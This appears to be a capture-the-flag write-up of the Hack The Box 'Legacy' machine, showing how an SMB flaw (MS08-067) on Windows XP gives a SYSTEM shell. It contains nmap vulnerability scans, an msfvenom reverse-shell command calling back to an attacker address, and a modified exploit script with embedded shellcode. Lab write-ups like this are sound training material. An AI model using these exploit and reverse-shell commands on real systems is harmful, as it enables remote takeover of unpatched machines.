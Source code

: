 # Legacy

![image](https://user-images.githubusercontent.com/10210108/79371281-1f5c9c00-7f22-11ea-957d-45c0a5eb8a97.png)

## Overview

Legacy is a Windows XP SP3 box that was vulnerable to a couple famous smb exploits, MS08-067 (exploited by Conficker) and MS17-010. I went with the former because I had already covered using MS17-010 in the write-up for Blue. The box was pretty straight forward; once I generated a new payload and updated the script I received a callback and shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows XP Professional 5.1.2600 SP3 Build 2600

**Port Scan**
```
map -vv -Pn -sT -A -p- 10.10.10.4 -oN /mnt/data/boxes/legacy/_full_tcp_nmap.txt
```

* 139/tcp - smb
* 445/tcp - smb
* 3389/tcp - remote desktop


## Steps (user)

There is no user step, exploit provides 'nt authority\system' shell.

## Steps (root/system)

I started by trying some typical smb commands but was not able to connect or gain any useful information.

![image](https://user-images.githubusercontent.com/10210108/82962092-349b0080-9f8d-11ea-9962-d7a949ea6311.png)

I used nmap to scan for smb vulnerabilities and found that it was vulnerable to MS08-067 and MS17-010. I decided to proceed with MS08-067 which was exploited by Conficker.

> Additional Info: Inside story behind [MS08-067](https://docs.microsoft.com/en-us/archive/blogs/johnla/the-inside-story-behind-ms08-067)

```
nmap -p 139,445 -Pn --script=smb-vuln* 10.10.10.4
```

![image](https://user-images.githubusercontent.com/10210108/82961915-af175080-9f8c-11ea-93c2-01f6307d190e.png)

Doing an internet search for MS08-067 showed an existing python exploit called "Microsoft Windows - 'NetAPI32.dll' Code Execution (Python)" - https://www.exploit-db.com/exploits/40279

I reviewed the script and updated it with my own shellcode using MSFVenom. I went with a standard shell_reverse_tcp, specified the IP and port, along with the EXITFUNC and badchars as called out in the script.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```

The original payload was 380 bytes and mine was 348, so a difference of 32 bytes. To accomodate for this I added an additional 32 NOPs and I added my payload right after.  

```python
import struct
import time
import sys

from threading import Thread    #Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    from impacket import dcerpc
    from impacket.dcerpc.v5 import transport
except ImportError, _:
    print 'Install the following library to make this script work'
    print 'Impacket : http://oss.coresecurity.com/projects/impacket.html'
    print 'PyCrypto : http://www.amk.ca/python/code/crypto.html'
    sys.exit(1)

print '#######################################################################'
print '#   MS08-067 Exploit'
print '#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).'
print '#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi'
print '#######################################################################\n'

#Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
#Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
#EXITFUNC=thread Important!
# Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
# Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
# EXITFUNC=thread Important!
# Oiriginal -> msfvenom -p windows/meterpreter/reverse_tcp LHOSiT=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python

shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+=b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
shellcode+=b"\x76\x0e\xb1\xb3\xda\xda\x83\xee\xfc\xe2\xf4\x4d\x5b"
shellcode+=b"\x58\xda\xb1\xb3\xba\x53\x54\x82\x1a\xbe\x3a\xe3\xea"
shellcode+=b"\x51\xe3\xbf\x51\x88\xa5\x38\xa8\xf2\xbe\x04\x90\xfc"
shellcode+=b"\x80\x4c\x76\xe6\xd0\xcf\xd8\xf6\x91\x72\x15\xd7\xb0"
shellcode+=b"\x74\x38\x28\xe3\xe4\x51\x88\xa1\x38\x90\xe6\x3a\xff"
shellcode+=b"\xcb\xa2\x52\xfb\xdb\x0b\xe0\x38\x83\xfa\xb0\x60\x51"
shellcode+=b"\x93\xa9\x50\xe0\x93\x3a\x87\x51\xdb\x67\x82\x25\x76"
shellcode+=b"\x70\x7c\xd7\xdb\x76\x8b\x3a\xaf\x47\xb0\xa7\x22\x8a"
shellcode+=b"\xce\xfe\xaf\x55\xeb\x51\x82\x95\xb2\x09\xbc\x3a\xbf"
shellcode+=b"\x91\x51\xe9\xaf\xdb\x09\x3a\xb7\x51\xdb\x61\x3a\x9e"
shellcode+=b"\xfe\x95\xe8\x81\xbb\xe8\xe9\x8b\x25\x51\xec\x85\x80"
shellcode+=b"\x3a\xa1\x31\x57\xec\xdb\xe9\xe8\xb1\xb3\xb2\xad\xc2"
shellcode+=b"\x81\x85\x8e\xd9\xff\xad\xfc\xb6\x4c\x0f\x62\x21\xb2"
shellcode+=b"\xda\xda\x98\x77\x8e\x8a\xd9\x9a\x5a\xb1\xb1\x4c\x0f"
shellcode+=b"\x8a\xe1\xe3\x8a\x9a\xe1\xf3\x8a\xb2\x5b\xbc\x05\x3a"
shellcode+=b"\x4e\x66\x4d\xb0\xb4\xdb\xd0\xd0\xbf\xae\xb2\xd8\xb1"
shellcode+=b"\xa3\xb2\x53\x57\xd9\xca\x8c\xe6\xdb\x43\x7f\xc5\xd2"
shellcode+=b"\x25\x0f\x34\x73\xae\xd6\x4e\xfd\xd2\xaf\x5d\xdb\x2a"
shellcode+=b"\x6f\x13\xe5\x25\x0f\xd9\xd0\xb7\xbe\xb1\x3a\x39\x8d"
shellcode+=b"\xe6\xe4\xeb\x2c\xdb\xa1\x83\x8c\x53\x4e\xbc\x1d\xf5"
shellcode+=b"\x97\xe6\xdb\xb0\x3e\x9e\xfe\xa1\x75\xda\x9e\xe5\xe3"
shellcode+=b"\x8c\x8c\xe7\xf5\x8c\x94\xe7\xe5\x89\x8c\xd9\xca\x16"
shellcode+=b"\xe5\x37\x4c\x0f\x53\x51\xfd\x8c\x9c\x4e\x83\xb2\xd2"
shellcode+=b"\x36\xae\xba\x25\x64\x08\x3a\xc7\x9b\xb9\xb2\x7c\x24"
shellcode+=b"\x0e\x47\x25\x64\x8f\xdc\xa6\xbb\x33\x21\x3a\xc4\xb6"
shellcode+=b"\x61\x9d\xa2\xc1\xb5\xb0\xb1\xe0\x25\x0f"

...truncated...
```

Looking at the script there are different return addresess for various different operating systems. This took a little trial and error but eventually it worked with option 6, 'Windows XP SP3 English (NX)'.

I started a netcat listener (nc -lvnp 4200) and ran the command with the parameter of 6 and received a shell

```
python ./40279.py 10.10.10.4 6
```

![image](https://user-images.githubusercontent.com/10210108/82964410-6911bb00-9f93-11ea-93e0-589070840765.png)

Note: This version of windows doesn't have whoami.exe so I had to upload it.

![image](https://user-images.githubusercontent.com/10210108/82964583-d1f93300-9f93-11ea-8a44-5456da5ffb1b.png)

